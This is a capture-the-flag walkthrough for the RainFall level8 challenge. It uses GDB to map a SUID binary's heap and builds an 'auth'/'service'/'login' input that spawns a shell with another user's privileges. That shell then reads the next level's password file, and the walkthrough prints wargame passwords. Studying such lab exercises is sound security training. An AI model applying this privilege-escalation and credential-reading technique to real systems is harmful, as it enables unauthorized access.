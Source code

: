 Login as `level8`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.0.28 -p 4242 -l level8
level7@192.168.0.19's password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
A `SUID` executable is located in the home directory.
```shell
level8@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```

```gdb
level8@RainFall:~$ gdb -q ./level8
Reading symbols from /home/user/level8/level8...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) run
Starting program: /home/user/level8/level8
(nil), (nil)
login

Program received signal SIGSEGV, Segmentation fault.
0x080486e7 in main ()
```
Examine what happens nat failed instruction. It moves value offsetted `0x8049aac+0x20` into `eax` register.
```gdb
(gdb) disassemble $eip
[...]
   0x080486e2 <+382>:	mov    eax,ds:0x8049aac
=> 0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:	test   eax,eax
[...]
(gdb) x/d 0x8049aac
0x8049aac <auth>:	0
(gdb) x *0x8049aac+0x20
0x20:	Cannot access memory at address 0x20
```
Restart program but this time starting by enter `auth whatever`
```gdb
(gdb) break *0x080486e2
Breakpoint 1 at 0x80486e2
(gdb) break *0x080486e7
Breakpoint 2 at 0x80486e7
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level8/level8
(nil), (nil)
auth root
0x804a008, (nil)
login

Breakpoint 6, 0x080486e2 in main ()
(gdb) x/i $eip
=> 0x80486e2 <main+382>:	mov    eax,ds:0x8049aac
(gdb) x/x 0x8049aac
0x8049aac <auth>:	0x0804a008
(gdb) until

Breakpoint 7, 0x080486e7 in main ()
(gdb) i r $eax
eax            0x804a008	134520840
(gdb) x/i $eip
=> 0x80486e7 <main+387>:	mov    eax,DWORD PTR [eax+0x20]
(gdb) x/x $eax+0x20
0x804a028:	0x00000000
(gdb) i r $eax
eax            0x804a008	134520840
(gdb) until
0x080486ea in main ()
(gdb) i r $eax
eax            0x0	0 # Value of auth->auth
(gdb) continue
Continuing.
Password:
```
Login condition fail and it _asks_ to enter password because `0x8049aac+0x20` still 0.
Using `service` keyword several times, 
```gdb
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level8/level8
(nil), (nil)
auth root
0x804a008, (nil)
login

Breakpoint 1, 0x080486e2 in main ()
(gdb) x/16wx 0x0804a008
0x804a008:	0x746f6f72	0x0000000a	0x00000000	0x00020ff1
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) continue
Continuing.

Breakpoint 2, 0x080486e7 in main ()
(gdb) continue
Continuing.
Password:
0x804a008, (nil)
service root
0x804a008, 0x804a018
login

Breakpoint 1, 0x080486e2 in main ()
(gdb) x/16wx 0x0804a008
0x804a008:	0x746f6f72	0x0000000a	0x00000000	0x00000011
0x804a018:	0x6f6f7220	0x00000a74	0x00000000	0x00020fe1
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) continue
Continuing.

Breakpoint 2, 0x080486e7 in main ()
(gdb) continue
Continuing.
Password:
0x804a008, 0x804a018
service root
0x804a008, 0x804a028
login

Breakpoint 1, 0x080486e2 in main ()
(gdb) x/16wx 0x0804a008
0x804a008:	0x746f6f72	0x0000000a	0x00000000	0x00000011
0x804a018:	0x6f6f7220	0x00000a74	0x00000000	0x00000011
0x804a028:	0x6f6f7220	0x00000a74	0x00000000	0x00020fd1
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/x 0x0804a008+0x20
0x804a028:	0x6f6f7220
(gdb) continue
Continuing.

Breakpoint 2, 0x080486e7 in main ()
(gdb) continue
Continuing.
$ id
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```
Or using `service` name `0x804a028-0x804a018=0x10`
```gdb
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level8/level8
(nil), (nil)
auth root
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login

Breakpoint 1, 0x080486e2 in main ()
(gdb) x/16wx 0x0804a008
0x804a008:	0x746f6f72	0x0000000a	0x00000000	0x00000021
0x804a018:	0x41414120	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x00000a41	0x00000000	0x00020fd1
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/x 0x0804a008+0x20
0x804a028:	0x41414141
(gdb) continue
Continuing.

Breakpoint 2, 0x080486e7 in main ()
(gdb) continue
Continuing.
$ id
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```

As GDB drops SUID, run same input outside GDB.
```shell
level8@RainFall:~$ (echo -e "auth root\n"; echo "service AAAAAAAAAAAAAAAAAAAA\n"; echo -n "login"; cat -) | ./level8
(nil), (nil)
0x804a008, (nil)
0x804a008, (nil)
0x804a008, 0x804a018

id
uid=2008(level8) gid=2008(level8) euid=2009(level9) egid=100(users) groups=2009(level9),100(users),2008(level8)
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8
```
As EUID is setted to `level9` it allows to read `.pass` file.

Use-After-Free (UAF) is a vulnerability related to incorrect use of dynamic memory during program operation.[¹](https://encyclopedia.kaspersky.com/glossary/use-after-free/)
